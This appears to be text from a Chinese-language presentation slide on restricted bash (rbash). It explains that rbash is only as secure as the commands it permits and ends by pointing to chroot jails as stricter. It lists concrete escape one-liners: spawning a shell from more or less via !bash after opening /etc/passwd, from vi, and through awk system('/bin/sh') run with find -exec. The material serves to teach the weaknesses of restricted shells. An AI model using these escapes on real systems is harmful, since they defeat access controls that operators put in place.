

限制性shell（受限的bash）
rbash 提供的受限环境的安全程度取决于用户能执行的命令，很多命令能调用外部命令，从而导致逃逸出受限环境。如：
more -1 /etc/passwd，然后 !bash。(less, man类似)
vi 等编辑器能通过 : 执行外部命令
awk 'BEGIN {system("/bin/sh")}‘
find /etc/ -name passwd -exec /usr/bin/awk 'BEGIN {system("/bin/sh")}' \;
echo "evil script code" | tee script.sh
如果能执行Python，Perl等脚本，则有很多方式可以启动一个shell

chroot jail能够实现更严格的受限执行方式